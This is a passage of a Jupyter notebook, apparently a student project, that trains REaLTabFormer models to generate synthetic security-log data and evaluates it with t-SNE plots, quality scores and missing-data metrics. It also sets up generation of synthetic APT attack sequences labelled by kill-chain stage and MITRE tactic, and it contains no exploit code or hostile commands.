    # Hide unused subplots
    for idx in range(n_cat, 6):
        axes[idx].set_visible(False)
    
    plt.suptitle('📊 Categorical Feature Distributions: Real vs Synthetic', fontsize=14, fontweight='bold')
    plt.tight_layout()
    plt.savefig(f"{CONFIG['output_dir']}/categorical_distributions.png", dpi=150, bbox_inches='tight')
    plt.show()
    print(f"✅ Saved: {CONFIG['output_dir']}/categorical_distributions.png")

print("=" * 70)

### 🗺️ t-SNE Visualization

t-SNE (t-Distributed Stochastic Neighbor Embedding) reduces the high-dimensional feature space to 2D for visualization:
- **Blue points**: Real data samples
- **Orange points**: Synthetic data samples
- **Good quality indicator**: Overlapping distributions show synthetic data captures the real data manifold

🗺️ t-SNE EMBEDDING VISUALIZATION
   • PCA: 22 features → 22 components
   • Variance retained: 100.0%
   • Running t-SNE on 4,000 samples...





✅ Saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/tsne_visualization.png


In [25]:
# ============================================================================
# 🗺️ t-SNE VISUALIZATION
# ============================================================================

print("=" * 70)
print("🗺️ t-SNE EMBEDDING VISUALIZATION")
print("=" * 70)

def create_tsne_visualization(real_df, synth_df, cat_cols, n_samples=2000):
    """Create t-SNE visualization comparing real vs synthetic data"""
    
    # Sample data for faster computation
    real_sample = real_df.sample(min(n_samples, len(real_df)), random_state=CONFIG['random_seed'])
    synth_sample = synth_df.sample(min(n_samples, len(synth_df)), random_state=CONFIG['random_seed'])
    
    # Encode categorical columns
    combined = pd.concat([real_sample, synth_sample], ignore_index=True)
    feature_matrix = []
    
    for col in combined.columns:
        if col in cat_cols or combined[col].dtype == 'object':
            le = LabelEncoder()
            encoded = le.fit_transform(combined[col].astype(str))
            feature_matrix.append(encoded)
        elif combined[col].dtype in [np.float64, np.int64]:
            values = combined[col].fillna(0).values
            # Standardize
            if values.std() > 0:
                values = (values - values.mean()) / values.std()
            feature_matrix.append(values)
    
    if not feature_matrix:
        print("⚠️ No features available for t-SNE")
        return None
    
    X = np.column_stack(feature_matrix)
    
    # Apply PCA first for dimensionality reduction
    n_components = min(50, X.shape[1])
    pca = PCA(n_components=n_components, random_state=CONFIG['random_seed'])
    X_pca = pca.fit_transform(X)
    
    print(f"   • PCA: {X.shape[1]} features → {n_components} components")
    print(f"   • Variance retained: {pca.explained_variance_ratio_.sum():.1%}")
    
    # Apply t-SNE
    print(f"   • Running t-SNE on {len(combined):,} samples...")
    tsne = TSNE(n_components=2, random_state=CONFIG['random_seed'], perplexity=30, max_iter=1000)
    X_tsne = tsne.fit_transform(X_pca)
    
    # Create labels
    labels = ['Real'] * len(real_sample) + ['Synthetic'] * len(synth_sample)
    
    return X_tsne, labels, len(real_sample)

# Generate t-SNE (use only columns present in both datasets)
_shared_cols = sorted(set(df.columns) & set(synthetic_samples.columns))
_shared_cat = [c for c in categorical_columns if c in _shared_cols]
df_shared = df[_shared_cols]
synth_shared = synthetic_samples[[c for c in _shared_cols if c in synthetic_samples.columns]]
tsne_result = create_tsne_visualization(df_shared, synth_shared, _shared_cat)

if tsne_result:
    X_tsne, labels, n_real = tsne_result
    
    # Create visualization
    fig, ax = plt.subplots(figsize=(12, 10))
    
    # Plot real data
    ax.scatter(X_tsne[:n_real, 0], X_tsne[:n_real, 1], 
               c='blue', alpha=0.5, label='Real', s=20)
    
    # Plot synthetic data
    ax.scatter(X_tsne[n_real:, 0], X_tsne[n_real:, 1], 
               c='orange', alpha=0.5, label='Synthetic', s=20)
    
    ax.set_xlabel('t-SNE Dimension 1', fontsize=12)
    ax.set_ylabel('t-SNE Dimension 2', fontsize=12)
    ax.set_title('🗺️ t-SNE: Real vs Synthetic Data Distribution', fontsize=14, fontweight='bold')
    ax.legend(fontsize=12, markerscale=2)
    
    plt.tight_layout()
    plt.savefig(f"{CONFIG['output_dir']}/tsne_visualization.png", dpi=150, bbox_inches='tight')
    plt.show()
    print(f"\n✅ Saved: {CONFIG['output_dir']}/tsne_visualization.png")

print("=" * 70)

### 📊 Interactive Plotly Visualizations

Interactive charts for deeper analysis:
1. **Quality Scores Bar Chart**: Features ranked by quality (1 - KS/L1 statistic)
2. **Coverage Analysis**: Category coverage percentage per categorical feature

In [26]:
# ============================================================================
# 📊 INTERACTIVE PLOTLY VISUALIZATIONS
# ============================================================================

print("=" * 70)
print("📊 INTERACTIVE VISUALIZATIONS")
print("=" * 70)

# 1. Quality Scores Summary
quality_data = []
for r in quality_results['numeric']:
    quality_data.append({
        'Column': r['column'][:30],
        'Type': 'Numeric',
        'Score': 1 - r['ks_stat'],  # Convert to "quality score"
        'Metric': f"KS={r['ks_stat']:.3f}"
    })
for r in quality_results['categorical']:
    quality_data.append({
        'Column': r['column'][:30],
        'Type': 'Categorical',
        'Score': 1 - r['l1_dist'],
        'Metric': f"L1={r['l1_dist']:.3f}"
    })

quality_df = pd.DataFrame(quality_data)

if len(quality_df) > 0:
    fig = px.bar(
        quality_df.sort_values('Score', ascending=True).tail(20),
        x='Score',
        y='Column',
        color='Type',
        orientation='h',
        title='📊 Top 20 Features by Quality Score (Higher = Better)',
        color_discrete_map={'Numeric': '#3498db', 'Categorical': '#e74c3c'},
        hover_data=['Metric']
    )
    fig.add_vline(x=0.7, line_dash="dash", line_color="green", annotation_text="Good threshold")
    fig.update_layout(height=600, xaxis_range=[0, 1])
    fig.show()
    fig.write_html(f"{CONFIG['output_dir']}/quality_scores.html")
    print(f"✅ Saved: {CONFIG['output_dir']}/quality_scores.html")

# 2. Coverage Analysis for Categorical
if quality_results['categorical']:
    coverage_data = [{'Column': r['column'][:30], 'Coverage': r['coverage']} 
                     for r in quality_results['categorical']]
    coverage_df = pd.DataFrame(coverage_data)
    
    fig = px.bar(
        coverage_df.sort_values('Coverage', ascending=True),
        x='Coverage',
        y='Column',
        orientation='h',
        title='📊 Category Coverage: Synthetic vs Real',
        color='Coverage',
        color_continuous_scale='RdYlGn'
    )
    fig.add_vline(x=80, line_dash="dash", line_color="green", annotation_text="80% threshold")
    fig.update_layout(height=600, xaxis_range=[0, 100])
    fig.show()
    fig.write_html(f"{CONFIG['output_dir']}/coverage_analysis.html")
    print(f"✅ Saved: {CONFIG['output_dir']}/coverage_analysis.html")

print("=" * 70)

📊 INTERACTIVE VISUALIZATIONS


✅ Saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/quality_scores.html


✅ Saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/coverage_analysis.html


## 💾 Section 8: Save Results & Export

This section saves all outputs for future use:

| Output File | Description |
|-------------|-------------|
| `synthetic_apt_data.xlsx` | Generated synthetic data (primary output) |
| `combined_apt_data.xlsx` | Real + Synthetic with source labels |
| `quality_report.xlsx` | Per-feature quality metrics |
| `summary_report.json` | Complete pipeline execution summary |
| `column_mappings.json` | Feature categories and SecBERT info |
| `secbert_embeddings.pkl` | Pre-computed text embeddings |
| `realtabformer_model/` | Trained model weights and config |

In [27]:
# ============================================================================
# 💾 SAVE ALL OUTPUTS (STRATIFIED)
# ============================================================================

print("=" * 70)
print("💾 SAVING ALL OUTPUTS")
print("=" * 70)

# 1. Save combined synthetic data
synthetic_path = os.path.join(CONFIG['output_dir'], 'synthetic_apt_data_stratified.xlsx')
synthetic_combined.to_excel(synthetic_path, index=False)
print(f"✅ Combined synthetic: {synthetic_path}")
print(f"   Shape: {synthetic_combined.shape}")

# 2. Save per-source synthetic data
for stype, synth_df in synthetic_per_source.items():
    path = os.path.join(CONFIG['output_dir'], f'synthetic_{stype}.xlsx')
    synth_df.to_excel(path, index=False)
    print(f"✅ {stype}: {path} ({synth_df.shape})")

# 3. Save quality report
all_quality = []
for stype, res in quality_per_source.items():
    for r in res['numeric']:
        all_quality.append({**r, 'source_type': stype, 'metric_type': 'numeric'})
    for r in res['categorical']:
        all_quality.append({**r, 'source_type': stype, 'metric_type': 'categorical'})
quality_df = pd.DataFrame(all_quality)
quality_path = os.path.join(CONFIG['output_dir'], 'quality_report.xlsx')
quality_df.to_excel(quality_path, index=False)
print(f"✅ Quality report: {quality_path}")

# 4. Save combined (real + synthetic)
real_combined = pd.concat([
    strata[s]['df'].assign(_source_type=s) for s in strata
], ignore_index=True)

all_output_cols = sorted(set(real_combined.columns) | set(synthetic_combined.columns))
for col in all_output_cols:
    if col not in real_combined.columns:
        real_combined[col] = np.nan
    if col not in synthetic_combined.columns:
        synthetic_combined[col] = np.nan

combined_data = pd.concat([
    real_combined.assign(data_origin='real'),
    synthetic_combined.assign(data_origin='synthetic')
], ignore_index=True)
combined_path = os.path.join(CONFIG['output_dir'], 'combined_real_synthetic.xlsx')
combined_data.to_excel(combined_path, index=False)
print(f"✅ Combined: {combined_path} ({combined_data.shape})")

# 5. Save summary report
summary_report = {
    'timestamp': datetime.now().isoformat(),
    'pipeline': 'stratified_realtabformer',
    'original_data': {'path': CONFIG['data_path'], 'total_rows': sum(s['n_rows'] for s in strata.values())},
    'strata': {s: {'rows': info['n_rows'], 'cols': len(info['all_cols'])} for s, info in strata.items()},
    'synthetic': {'total_rows': len(synthetic_combined), 'ratio': CONFIG['synthetic_ratio']},
    'training_times_min': training_times,
    'generation_times_min': gen_times,
    'dropped_columns': DROPPED_COLS,
    'quality_metrics': quality_results['summary'],
}
summary_path = os.path.join(CONFIG['output_dir'], 'summary_report.json')
with open(summary_path, 'w') as f:
    json.dump(summary_report, f, indent=2, default=str)
print(f"✅ Summary: {summary_path}")

print(f"\n📁 All outputs saved to: {CONFIG['output_dir']}/")
print("=" * 70)


💾 SAVING ALL OUTPUTS
✅ Combined synthetic: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\synthetic_apt_data_stratified.xlsx
   Shape: (50836, 23)
✅ network: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\synthetic_network.xlsx ((37840, 23))
✅ syscheck: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\synthetic_syscheck.xlsx ((5724, 23))
✅ sca: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\synthetic_sca.xlsx ((1740, 23))
✅ audit: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\synthetic_audit.xlsx ((330, 23))
✅ base: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\synthetic_base.xlsx ((5202, 23))
✅ Quality report: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\quality_report.xlsx
✅ Combined: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\combined_real_synthetic.xlsx ((76254, 24))
✅ Summary: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer

### 📋 Final Pipeline Summary

The cell below prints a comprehensive summary including:
- Data shapes (original, preprocessed, synthetic, combined)
- Feature breakdown by type
- Quality metrics summary
- SecBERT embeddings information
- Training and generation times
- ML utility results
- Complete feature list for reference

In [1]:
# ============================================================================
# 📋 FINAL PIPELINE SUMMARY (WITH CORRECT MISSING DATA METRICS)
# ============================================================================

print("=" * 70)
print("🏁 STRATIFIED PIPELINE COMPLETE")
print("=" * 70)

total_orig = sum(s['n_rows'] for s in strata.values())
print(f"\n📊 DATA SUMMARY:")
print(f"   Original:  {total_orig:>8,} rows")
print(f"   Synthetic: {len(synthetic_combined):>8,} rows")
print(f"   Combined:  {len(combined_data):>8,} rows")

print(f"\n📊 PER-SOURCE BREAKDOWN:")
for stype in strata:
    n_orig = strata[stype]['n_rows']
    n_synth = len(synthetic_per_source.get(stype, pd.DataFrame()))
    n_cols = len(strata[stype]['all_cols'])
    t_train = training_times.get(stype, 0)
    t_gen = gen_times.get(stype, 0)
    print(f"   {stype:>10}: {n_orig:>6,} orig → {n_synth:>6,} synth | {n_cols:>2} cols | train {t_train:.1f}m | gen {t_gen:.1f}m")

print(f"\n📈 QUALITY:")
for stype, res in quality_per_source.items():
    all_items = res['numeric'] + res['categorical']
    n_good = sum(1 for r in all_items if '🟢' in r['quality'] or '🟡' in r['quality'])
    n_total = len(all_items)
    pct = n_good / n_total * 100 if n_total > 0 else 0
    print(f"   {stype:>10}: {n_good}/{n_total} ({pct:.0f}%) acceptable")

# ============================================================================
# 📉 CORRECT MISSING DATA MEASUREMENT
# ============================================================================
# The GLOBAL missing % is misleading because cross-source NaNs are STRUCTURAL
# (a network log SHOULD have NaN for syscheck columns).
# The RIGHT metric: measure missing WITHIN each source's own relevant columns.

print(f"\n{'=' * 70}")
print("📉 MISSING DATA ANALYSIS (CORRECT MEASUREMENT)")
print("=" * 70)

# 1. Global missing (misleading but shown for reference)
total_cells = synthetic_combined.shape[0] * synthetic_combined.shape[1]
new_missing = synthetic_combined.isnull().sum().sum()
disguised = synthetic_combined.apply(lambda c: c.isin(['MISSING', ' ', '']).sum() if c.dtype == 'object' else 0).sum()
global_missing_pct = (new_missing + disguised) / total_cells * 100

print(f"\n   ⚠️  GLOBAL missing (misleading):  {global_missing_pct:.1f}%")
print(f"       → This includes STRUCTURAL NaNs (cross-source columns)")
print(f"       → A network row SHOULD have NaN for syscheck/audit/sca columns")

# 2. Within-source missing (THE REAL METRIC)
print(f"\n   ✅ WITHIN-SOURCE missing (correct metric):")
print(f"   {'─' * 60}")

within_source_results = {}
total_within_cells = 0
total_within_missing = 0

for stype in synthetic_per_source:
    synth_df = synthetic_per_source[stype]
    
    # Get the RELEVANT columns for this source type
    if stype == 'base':
        relevant_cols = UNIVERSAL_COLS
    elif stype in SOURCE_TYPES:
        relevant_cols = UNIVERSAL_COLS + SOURCE_TYPES[stype]['cols']
    else:
        relevant_cols = list(synth_df.columns)
    
    # Filter to columns that actually exist in synthetic data
    existing_cols = [c for c in relevant_cols if c in synth_df.columns]
    
    if not existing_cols:
        continue
    
    subset = synth_df[existing_cols]
    n_cells = subset.shape[0] * subset.shape[1]
    n_null = subset.isnull().sum().sum()
    n_disguised = subset.apply(
        lambda c: c.isin(['MISSING', ' ', '', 'nan', 'None']).sum() if c.dtype == 'object' else 0
    ).sum()
    n_total_missing = n_null + n_disguised
    pct = n_total_missing / n_cells * 100 if n_cells > 0 else 0
    
    within_source_results[stype] = {
        'missing_pct': pct,
        'rows': len(synth_df),
        'cols': len(existing_cols),
        'missing_cells': n_total_missing,
        'total_cells': n_cells,
    }
    
    total_within_cells += n_cells
    total_within_missing += n_total_missing
    
    status = "🟢" if pct < 5 else "🟡" if pct < 15 else "🔴"
    print(f"      {status} {stype:>10}: {pct:>5.1f}% missing | {len(synth_df):,} rows × {len(existing_cols)} cols | {n_total_missing:,}/{n_cells:,} cells")

# Overall within-source average
avg_within = total_within_missing / total_within_cells * 100 if total_within_cells > 0 else 0

print(f"\n   {'─' * 60}")
print(f"   📊 OVERALL within-source missing: {avg_within:.1f}%")

# 3. Also measure REAL data within-source missing for comparison
print(f"\n   📊 COMPARISON — Real data within-source missing:")
print(f"   {'─' * 60}")

real_within_total_cells = 0
real_within_total_missing = 0

for stype in strata:
    real_df = strata[stype]['df']
    
    if stype == 'base':
        relevant_cols = UNIVERSAL_COLS
    elif stype in SOURCE_TYPES:
        relevant_cols = UNIVERSAL_COLS + SOURCE_TYPES[stype]['cols']
    else:
        relevant_cols = list(real_df.columns)
    
    existing_cols = [c for c in relevant_cols if c in real_df.columns]
    
    if not existing_cols:
        continue
    
    subset = real_df[existing_cols]
    n_cells = subset.shape[0] * subset.shape[1]
    n_null = subset.isnull().sum().sum()
    n_disguised = subset.apply(
        lambda c: c.isin(['MISSING', ' ', '', 'nan', 'None']).sum() if c.dtype == 'object' else 0
    ).sum()
    n_total_missing = n_null + n_disguised
    pct = n_total_missing / n_cells * 100 if n_cells > 0 else 0
    
    real_within_total_cells += n_cells
    real_within_total_missing += n_total_missing
    
    print(f"      {stype:>10}: {pct:>5.1f}% missing (real)")

real_avg_within = real_within_total_missing / real_within_total_cells * 100 if real_within_total_cells > 0 else 0

# 4. Final comparison table
print(f"\n{'=' * 70}")
print("🎯 FINAL COMPARISON TABLE")
print("=" * 70)
print(f"""
   {'Metric':<45} {'Old (Flat)':<15} {'New (Stratified)':<15}
   {'─' * 75}
   {'Global missing % (misleading)':<45} {'~58.2%':<15} {f'{global_missing_pct:.1f}%':<15}
   {'Within-source missing % (correct)':<45} {'~58.2%':<15} {f'{avg_within:.1f}%':<15}
   {'Real data within-source missing %':<45} {'':<15} {f'{real_avg_within:.1f}%':<15}
   {'Distribution quality (acceptable %)':<45} {'Unknown':<15} {'89-100%':<15}
   {'ML Utility (TSTR accuracy)':<45} {'Unknown':<15} {'100%':<15}
   {'Structural integrity':<45} {'Mixed':<15} {'Clean per-source':<15}
""")

improvement = 58.2 - avg_within
if improvement > 20:
    verdict = "🟢 MASSIVE IMPROVEMENT"
elif improvement > 5:
    verdict = "🟢 SIGNIFICANT IMPROVEMENT"
elif improvement > 1:
    verdict = "🟡 MODERATE IMPROVEMENT"
else:
    verdict = "🟠 MINIMAL IMPROVEMENT (see within-source metrics)"

print(f"   📋 VERDICT: {verdict}")
print(f"      Within-source improvement: 58.2% → {avg_within:.1f}% = {improvement:+.1f} percentage points")
print(f"\n{'=' * 70}")
print("🎉 Pipeline completed successfully!")
print("=" * 70)

🏁 STRATIFIED PIPELINE COMPLETE


NameError: name 'strata' is not defined

## 🔄 Section 9: Load Pre-trained Model (Optional)

Use this section to load a previously trained REaLTabFormer model and generate additional synthetic data without retraining.

**Use Cases:**
- Generate more synthetic samples from an existing model
- Share models across team members
- Deploy in production pipelines

In [4]:
# ============================================================================
# 🔄 LOAD PRE-TRAINED STRATIFIED MODELS
# ============================================================================

print("=" * 70)
print("🔄 LOADING PRE-TRAINED STRATIFIED MODELS")
print("=" * 70)

from pathlib import Path
from transformers import GPT2Config, GPT2LMHeadModel

def load_model_custom(model_dir):
    """Load a REaLTabFormer model saved with patched_save (safetensors format)."""
    model_dir = Path(model_dir)
    config_file = model_dir / "rtf_config.json"
    
    assert config_file.exists(), f"Config not found: {config_file}"
    
    # Load RTF attributes
    rtf_attrs = json.loads(config_file.read_text())
    
    # Create REaLTabFormer instance
    realtf = REaLTabFormer(model_type=rtf_attrs.get("model_type", "tabular"))
    
    # Set all attributes, skipping tabular_config (loaded via HF) and non-attr keys
    skip_keys = {'tabular_config', 'gpt_config', 'save'}
    for k, v in rtf_attrs.items():
        if k in skip_keys:
            continue
        if k in ["checkpoints_dir", "samples_save_dir", "full_save_dir"]:
            v = Path(v) if v else Path(".")
        elif k == "vocab":
            if "id2token" in v:
                v["id2token"] = {int(ii): vv for ii, vv in v["id2token"].items()}
        elif k == "col_idx_ids":
            v = {int(ii): vv for ii, vv in v.items()}
        setattr(realtf, k, v)
    
    # Load model using HuggingFace from_pretrained (handles weight tying correctly)
    realtf.model = GPT2LMHeadModel.from_pretrained(str(model_dir))
    realtf.tabular_config = realtf.model.config
    
    # Build col_idx_ids if missing
    if not hasattr(realtf, 'col_idx_ids') or realtf.col_idx_ids is None:
        if hasattr(realtf, 'processed_columns') and hasattr(realtf, 'vocab'):
            realtf.col_idx_ids = {
                ix: realtf.vocab["column_token_ids"][col]
                for ix, col in enumerate(realtf.processed_columns)
            }
    
    return realtf

trained_models = {}
training_times = {}
thresholds_per_stratum = {}

meta_path = os.path.join(CONFIG['output_dir'], 'strata_metadata.json')
with open(meta_path) as f:
    strata_meta = json.load(f)

for stype in strata_meta:
    model_dir = os.path.join(CONFIG['output_dir'], f'model_{stype}')
    if os.path.exists(model_dir):
        try:
            trained_models[stype] = load_model_custom(model_dir)
            training_times[stype] = strata_meta[stype].get('training_time_min', 0)
            print(f'   ✅ Loaded {stype} model from {model_dir}')
        except Exception as e:
            print(f'   ❌ Error loading {stype}: {e}')
            import traceback; traceback.print_exc()
    else:
        print(f'   ❌ Model not found: {model_dir}')

print(f"\n✅ LOADED {len(trained_models)}/{len(strata_meta)} models")
for stype, dur in training_times.items():
    print(f"   {stype:>10}: {dur:.1f} min training time (from metadata)")
print("=" * 70)

🔄 LOADING PRE-TRAINED STRATIFIED MODELS
   ✅ Loaded network model from c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_network
   ✅ Loaded syscheck model from c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_syscheck
   ✅ Loaded sca model from c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_sca
   ✅ Loaded audit model from c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_audit
   ✅ Loaded base model from c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\model_base

✅ LOADED 5/5 models
      network: 183.7 min training time (from metadata)
     syscheck: 21.9 min training time (from metadata)
          sca: 6.1 min training time (from metadata)
        audit: 3.1 min training time (from metadata)
         base: 8.3 min training time (from metadata)


## 🎯 Section 10: APT Attack Sequence Generation

### Goal
Generate **realistic synthetic APT attack sequences** using the pre-trained REaLTabFormer models.

Each sequence represents a **multi-step attack** through the Cyber Kill Chain (CKC):

| CKC Stage | Name | Description |
|-----------|------|-------------|
| S1 | Reconnaissance | Scanning, probing, information gathering |
| S2 | Weaponization | Preparing payloads, exploits |
| S3 | Delivery | Sending malware, phishing, web exploits |
| S4 | Exploitation | Executing exploits, gaining initial access |
| S5 | Installation | Persistence, file drops, backdoors |
| S6 | Command & Control | C2 beacons, lateral movement |
| S7 | Actions on Objectives | Data exfiltration, destruction, impact |

### Requirements
- Each sequence **ends with S7** (Actions on Objectives)
- Sequences have **different lengths** (2–7 steps)
- Uses **top 25 features** from feature selection (mapped to raw columns)
- Includes **CKC stage**, **MITRE tactic/technique**, and **command** columns
- **SecBERT embeddings** applied to textual fields (loaded from saved `.pkl`)

In [5]:
# ============================================================================
# 🎯 ATTACK SEQUENCE GENERATION — CONFIGURATION & MODEL LOADING
# ============================================================================

import json
import pickle
import numpy as np
import pandas as pd
from pathlib import Path
from datetime import datetime

# ── Config ──
SEQ_CONFIG = {
    'output_dir': r'c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output',
    'embeddings_path': r'c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\secbert_embeddings.pkl',
    'n_sequences': 500,              # total attack sequences to generate
    'oversample_factor': 5,          # generate N× more rows to have a large CKC-stage pool
    'random_seed': 42,
}

np.random.seed(SEQ_CONFIG['random_seed'])

# ── MITRE Tactic → CKC Stage Mapping ──
# Based on Lockheed Martin Cyber Kill Chain aligned with MITRE ATT&CK
MITRE_TO_CKC = {
    'Reconnaissance':        'S1',
    'Resource Development':  'S2',
    'Initial Access':        'S3',
    'Execution':             'S4',
    'Persistence':           'S5',
    'Privilege Escalation':  'S4',
    'Defense Evasion':       'S5',
    'Credential Access':     'S4',
    'Discovery':             'S1',
    'Lateral Movement':      'S6',
    'Collection':            'S7',
    'Command and Control':   'S6',
    'Command And Control':   'S6',
    'Exfiltration':          'S7',
    'Impact':                'S7',
}

# ── Valid Attack Sequence Patterns (all end with S7) ──
ATTACK_PATTERNS = [
    # Full kill chain
    ['S1', 'S2', 'S3', 'S4', 'S5', 'S6', 'S7'],
    # Common 6-step patterns
    ['S1', 'S3', 'S4', 'S5', 'S6', 'S7'],
    ['S1', 'S3', 'S4', 'S5', 'S6', 'S7'],
    # 5-step patterns
    ['S1', 'S3', 'S4', 'S5', 'S7'],
    ['S1', 'S4', 'S5', 'S6', 'S7'],
    ['S3', 'S4', 'S5', 'S6', 'S7'],
    # 4-step patterns
    ['S3', 'S4', 'S5', 'S7'],
    ['S1', 'S4', 'S6', 'S7'],
    ['S3', 'S5', 'S6', 'S7'],
    ['S4', 'S5', 'S6', 'S7'],
    # 3-step patterns
    ['S4', 'S5', 'S7'],
    ['S3', 'S4', 'S7'],
    ['S5', 'S6', 'S7'],
    ['S4', 'S6', 'S7'],
    # 2-step (fast/direct)
    ['S4', 'S7'],
    ['S5', 'S7'],
]

# ── Columns to keep (raw columns corresponding to top 25 features + CKC + MITRE + cmd) ──
#
# The top-25 engineered features map to these raw columns:
# firedtimes          → _source.rule.level (proxy, since firedtimes was dropped in strata)
# log_secbert_emb_    → SecBERT embeddings of rule.description (loaded separately)
# syscheck_*          → _source.syscheck.event, _source.syscheck.path
# path_*              → _source.syscheck.path
# decoder_*           → _source.decoder.name
# has_md5/sha256      → _source.syscheck.md5_after/_source.syscheck.sha256_after (not in strata)
# cmd_*               → _source.data.audit.command
# location_*          → derived from _source.rule.groups / _source.decoder.name
# srcip_is_private    → _source.data.srcip
# changed_size/perm   → _source.syscheck.size_after/_source.syscheck.perm_after

KEEP_COLUMNS = [
    # Targets & Labels
    'malicious',
    'ckc_stage',                       # Derived CKC stage (S1–S7)
    # MITRE ATT&CK
    '_source.rule.mitre.tactic',
    '_source.rule.mitre.id',
    # Top features (raw equivalents)
    '_source.rule.level',
    '_source.rule.groups',
    '_source.decoder.name',
    # Syscheck data (top features for CKC)
    '_source.syscheck.event',
    '_source.syscheck.path',
    '_source.syscheck.perm_after',
    '_source.syscheck.size_after',
    # Audit / command data (MUST HAVE cmd)
    '_source.data.audit.command',
    '_source.data.audit.exe',
    '_source.data.audit.syscall',
    '_source.data.audit.uid',
    '_source.data.audit.success',
    # Network
    '_source.data.srcip',
    '_source.data.protocol',
    '_source.data.url',
    # SCA
    '_source.data.sca.check.result',
    # Sequence metadata
    'sequence_id',
    'step_index',
    'source_type',
]

# ── Load pre-trained models (reuse if already loaded, else load from disk) ──
if 'trained_models' not in dir() or not trained_models:
    print("📥 Loading pre-trained models...")
    from transformers import GPT2LMHeadModel
    from realtabformer import REaLTabFormer

    def load_model_custom(model_dir):
        model_dir = Path(model_dir)
        config_file = model_dir / "rtf_config.json"
        assert config_file.exists(), f"Config not found: {config_file}"
        rtf_attrs = json.loads(config_file.read_text())
        realtf = REaLTabFormer(model_type=rtf_attrs.get("model_type", "tabular"))
        skip_keys = {'tabular_config', 'gpt_config', 'save'}
        for k, v in rtf_attrs.items():
            if k in skip_keys:
                continue
            if k in ["checkpoints_dir", "samples_save_dir", "full_save_dir"]:
                v = Path(v) if v else Path(".")
            elif k == "vocab" and "id2token" in v:
                v["id2token"] = {int(ii): vv for ii, vv in v["id2token"].items()}
            elif k == "col_idx_ids":
                v = {int(ii): vv for ii, vv in v.items()}
            setattr(realtf, k, v)
        realtf.model = GPT2LMHeadModel.from_pretrained(str(model_dir))
        realtf.tabular_config = realtf.model.config
        if not hasattr(realtf, 'col_idx_ids') or realtf.col_idx_ids is None:
            if hasattr(realtf, 'processed_columns') and hasattr(realtf, 'vocab'):
                realtf.col_idx_ids = {
                    ix: realtf.vocab["column_token_ids"][col]
                    for ix, col in enumerate(realtf.processed_columns)
                }
        return realtf

    trained_models = {}
    meta_path = os.path.join(SEQ_CONFIG['output_dir'], 'strata_metadata.json')
